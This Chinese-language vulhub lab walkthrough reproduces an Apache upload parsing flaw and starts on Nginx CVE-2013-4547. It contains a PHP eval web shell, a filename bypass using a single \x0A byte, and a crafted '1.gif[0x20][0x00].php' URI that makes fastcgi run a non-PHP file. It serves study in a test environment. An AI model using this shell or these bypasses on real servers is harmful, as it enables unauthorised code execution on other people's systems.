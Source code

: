 #### 漏洞复现

启动漏洞环境

![202203011023294](https://img.yatjay.top/md/202203261024492.png)

![202203011025297](https://img.yatjay.top/md/202203261024823.png)

准备`shell.php`文件

```php
<?php 
    @eval($_POST['shell']);
    phpinfo();
?>
```

上传一个名为`shell.php`的文件，POST提交参数name值为`evil.php`，被拦截：

![202203011027731](https://img.yatjay.top/md/202203261024824.png)

在上述POST提交的文件名`evil.php`后面插入一个`\x0A`（注意，不能是`\x0D\x0A`，只能是一个`\x0A`，可使用十六进制数据格式修改添加），不再拦截：

![202203011029808](https://img.yatjay.top/md/202203261024203.png)

访问刚才上传的`IP:8080/evil.php%0a`，发现能够成功解析，但这个文件不是php后缀，说明目标存在解析漏洞：

![202203011032726](https://img.yatjay.top/md/202203261024805.png)

### Nginx 文件名逻辑漏洞(CVE-2013-4547) ——vulhub

#### 漏洞

影响版本： Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7  

这个漏洞其实和代码执行没有太大关系，其主要原因是错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响。

举个例子，比如，Nginx匹配到.php结尾的请求，就发送给fastcgi进行解析，常见的写法如下：

```
location ~ \.php$ {
    include        fastcgi_params;

    fastcgi_pass   127.0.0.1:9000;
    fastcgi_index  index.php;
    fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;
    fastcgi_param  DOCUMENT_ROOT /var/www/html;
}
```

正常情况下（关闭pathinfo的情况下），只有.php后缀的文件才会被发送给fastcgi解析。

而存在CVE-2013-4547的情况下，我们请求`1.gif[0x20][0x00].php`，这个URI可以匹配上正则`\.php$`，可以进入这个Location块；但进入后，Nginx却错误地认为请求的文件是`1.gif[0x20]`，就设置其为`SCRIPT_FILENAME`的值发送给fastcgi。

fastcgi根据`SCRIPT_FILENAME`的值进行解析，最后造成了解析漏洞。
